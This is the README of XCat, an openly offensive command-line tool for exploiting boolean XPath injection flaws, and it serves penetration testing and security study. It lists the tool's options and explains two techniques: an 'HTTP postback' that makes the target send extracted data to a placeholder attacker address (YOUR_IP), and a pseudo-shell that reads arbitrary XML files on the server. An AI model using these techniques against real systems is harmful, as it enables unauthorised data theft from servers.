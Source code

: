 XCat
====

XCat is a command line program that aides in the exploitation of XPath injection vulnerabilities.
It boasts a wide range of features and can utilize the more advanced features of the XPath 2.0 specification (pattern matching, unicode normilization and even http requests) or gracefully degrade to using XPath 1.0 if they are not available.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request) and it requires you to manually identifiy the exploit first, this does not do that for you.

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* One file, three dependancies ([Python 2.7+](http://www.python.org/download/releases/2.7.2/), [Futures](http://pypi.python.org/pypi/futures/2.1.2) (only if you are not using 3.x) and [cElementTree](http://effbot.org/downloads/#elementtree))
* Parallel requests (adjustable thread pool size)
* XPath 2.0 supported (with graceful degrading to 1.0)
* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)

Usage
-----
	usage: main.py [-h] [--method {GET,POST}] [--arg POST_ARGUMENT]
	               [--true TRUE_KEYWORD] [--false FALSE_KEYWORD]
	               [--max_search SEARCH_LIMIT] [--error ERROR_KEYWORD]
	               [--timeout TIMEOUT] [--threadpool POOLSIZE]
	               [--stepsize STEP_SIZE] [--xversion {1,2,auto}] [--lowercase]
	               [--regex] [--connectback] [--connectbackip CONNECTBACK_IP]
	               [--connectbackport CONNECTBACK_PORT]
	               [--notfoundstring NOTFOUNDCHAR] [--fileshell]
	               URL

### Simple usage with the example application
Check out the [readme](xcat/blob/master/src/example_application/README.md) to try out XCat with the provided example application.

HTTP Postback / doc function
----------------------------
Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP server within the program which listens on a specified port and by then calling the doc() function with the currently targetted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your IP (requires the port to be forwarded and/or a public IP) in the following format:

	http://YOUR_IP/?q=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using the --fileshell flag and enter any file path.

